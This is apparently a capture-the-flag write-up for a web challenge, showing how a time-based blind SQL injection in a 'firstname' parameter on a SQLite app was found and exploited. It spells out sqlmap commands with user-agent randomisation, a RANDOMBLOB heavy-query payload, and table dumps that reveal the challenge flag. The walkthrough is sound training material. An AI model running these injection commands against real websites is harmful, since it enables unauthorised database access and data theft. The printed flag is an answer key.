

# SQL Always Sucks

## Challenge
* Category: Web Security
* Points: 150

We discovered an application in our environment that is apparently under development.
Please identify the risk it poses. http://challenge.acictf.com:28986

Note: Solutions to this problem are known to be sensitive to connection latency.
If your solution is working but very slowly, you may be able to speed up the process by running it from the competition's shell server.
https://cyberstakes.acictf.com/shell

### Hints
* It's sometimes useful to know what kind of database is behind a webapp before trying to attack it. It can save you time and really narrow your efforts. I wonder if the developers accidentally left any clues laying around.
* SQL injuection attacks don't always result in you getting raw database contents sent directly back to you. Sometimes it is all about [patience](https://www.sqlinjection.net/time-based/) and [timing](https://hackernoon.com/timing-based-blind-sql-attacks-bd276dc618dd).
* Some attacks just are not practical to do by hand because they require precision and lots of repetition. Thankfully, tools like [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage) can automate much of this for you. It even comes pre-installed on our shell server!
* Many tools use unique user-agent strings by default. If you notice that curl or sqlmap don't appear to be working properly, you may need to look into whether you can configure them to "impersonate" something else


## Solution

### Tools
* sqlmap
* Popcorn and Netflix

This challenge is no longer available after the competition.  Hopefully we can put together a decent walkthrough from my notes.

Start by entering a name in the form and lets see what response we get back. Inspect that page to see if there are any unusual details.



There are two interesting parts in the HTML response.
* We see some comments in the HTML that inform us the backed DB is Sqlite
  * `<!--Dev is only using Sqlite. Bobby Needs to fix this -->`
* There is also a raw SQLite query in the debug class further down. This gives us more information about potential columns in a SQLite table.
  * `<p class='debug'> Debug: Last SQLite Query: SELECT lastname FROM Users WHERE firstname='blarg'</p>`

So far we know the backend DB is `SQLite`, there is a table called `Users` with columns `lastname` and `firstname`.

Kick off a `sqlmap` query to try and enumerate further details about the database.  Paying close attention to the hints above, we will most likely need to incorporate some randomization in the `User Agent` as well as time-sensitivity settings.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --time-sec=3 --level=4 --risk=3 --union-from=users

... (Im truncating output)

[01:56:29] [INFO] GET parameter 'firstname' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[02:02:06] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
GET parameter 'firstname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 2286 HTTP(s) requests:
---
Parameter: firstname (GET)
    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=blarg' OR 9267=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2))))-- vlWw
---
[02:02:54] [INFO] the back-end DBMS is SQLite
```

That query did not give us much more information than we already knew from reading the HTLM, but it did confirm we are dealing with a SQLite database. Lets form an approach for enumerating the database.

#### Approach
* Enumerate table names
* Enumerate columns for tables
* Get data from columns of interest in a specific table, ie: column=flag


#### Enumerate Table Names
Try again, but use the `--dbms=SQLite`, `--random-agent` and `--tables` flags for sqlmap. The first tells sqmlap we are dealing with a SQLite database. The second randomizes the User-Agent string sent with the requests and the last focuses on [enumerating database tables](https://github.com/sqlmapproject/sqlmap/wiki/Usage#enumerate-databases-tables). When sqlmap asks you to `optimize value(s) for DBMS delay responses` type `y`.  __This query is going to take a long time__, go ahead a make some popcorn and binge-watch something on Netflix.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --tables

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+
```

Excellent. We now know there are two tables `SuperSecretData` and `Users` in the `SQLite_masterdb` Database and I have not decided if Tiger King is a true-crime documentary or a trashy reality-tv show.


#### Enumerate Columns for Tables

This time we are going to try and get the names of the columns in the `SuperSecretData` table. Add `-D SQLite_masterdb`, `-T SuperSecretData`, and `--columns` to our sqlmap query string. The first flag names the database to enumerate. The second flag names the Table to enumerate. The last flag tells sqlmap what to enumerate from the table (ie the table columns).  Continue to let sqlmap optimize DBMS delay responses by answering `y` when prompted. Kick off this query and go for a run. It's going to be a while before we get the results back.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData --columns

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+
```

Sweet! We can see that there are two columns `flag` and `ID` in the `SuperSecretData` table.


#### Get Data (the flag)

This time we are going to try and get the flag by dumping DBMS database table entries. Formulate your query by adding `-C flag` and `--dump` to your query. The first argument specified which table column to focus on and the second tells sqlmap to dump its contents.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData -C flag --dump

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ACI{59df47a3243d2f239ea878a7266} |
+----------------------------------+
```

Boom! We have our flag. **ACI{59df47a3243d2f239ea878a7266}**

You could have used the following queries to enumerate the User table, but it's not necessary. You would have found the lastname and firstname columns are filled with 20 `NULL` values.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users --columns
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C lastname --dump
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C firstname --dump
```
